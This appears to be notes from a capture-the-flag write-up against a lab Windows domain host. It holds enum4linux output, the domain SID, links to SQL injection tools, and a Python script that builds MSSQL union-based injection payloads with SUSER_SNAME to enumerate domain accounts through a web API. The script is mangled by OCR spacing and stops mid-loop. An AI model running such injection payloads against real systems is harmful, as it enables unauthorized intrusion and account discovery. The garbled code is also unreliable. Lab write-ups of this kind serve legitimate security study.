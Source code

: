 ```text
 =========================================== 
|    Getting domain SID for 10.10.10.179    |
 =========================================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 359.
Domain Name: MEGACORP
Domain Sid: S-1-5-21-3167813660-1240564177-918740779
[+] Host is part of a domain (not a workgroup)
```

[https://devblogs.microsoft.com/oldnewthing/20040315-00/?p=40253](https://devblogs.microsoft.com/oldnewthing/20040315-00/?p=40253) [https://froosh.wordpress.com/2005/10/21/hex-sid-to-decimal-sid-translation/](https://froosh.wordpress.com/2005/10/21/hex-sid-to-decimal-sid-translation/) SID in HEX `0x0105000000000005150000001C00D1BCD181F1492BDFC23600020000`

[https://securityonline.info/mssqli-duet-sql-injection-script-for-mssql/](https://securityonline.info/mssqli-duet-sql-injection-script-for-mssql/) [https://github.com/Keramas/mssqli-duet](https://github.com/Keramas/mssqli-duet)

[https://translate.google.com/translate?hl=en&sl=ru&u=https://lolz.guru/threads/1537485/&prev=search&pto=aue](https://translate.google.com/translate?hl=en&sl=ru&u=https://lolz.guru/threads/1537485/&prev=search&pto=aue)

```python
#! / usr / bin / env python
#This script enumerates domain users through MS SQL Server
#Requires the SID of the domain
import requests
import re
import json
import time
from termcolor import colored

def little (s):
    try:
        t = bytearray.fromhex (s)
        t.reverse ()
        return "" .join (format (x, "02x") for x in t) .upper ()
    except:
        print colored ("[i] Finished, Domain Accounts are over", "blue")
        exit (0)

if __name__ == "__main__":
    i = 1100
    SID = "0x0105000000000005150000001C00D1BCD181F1492BDFC236"
    #SID = raw_input ("Enter SID:")
    URL = "http://10.10.10.179/api/getColleagues"
    #URL = raw_input ("Enter URL:")

    print colored ("\ n \ t + ------------------------------------------ ---------------------------- + "," magenta ")
    print colored ("\ t | |", "magenta")
    print colored ("\ t | Enumerating Script For Domain Accounts by M0NET |", "magenta")
    print colored ("\ t | SID:" + SID + "|", "magenta")
    print colored ("\ t | |", "magenta")
    print colored ("\ t + -------------------------------------------- -------------------------- + \ n \ n "," magenta ")

    for x in range (1100,6100,1000):
        for i in range (15):
            JUNK = "0" + hex ((x + i)) [2:]. Upper ()
            RID = SID + little (JUNK) + 4 * "0"
            payload = "- 'union select 1,2,3,4, SUSER_SNAME ({}) - -". format (RID)
            #payload = raw_input ("Enter Payload:")
            pattern = re.compile (r "([0-9a-f] {2})")
```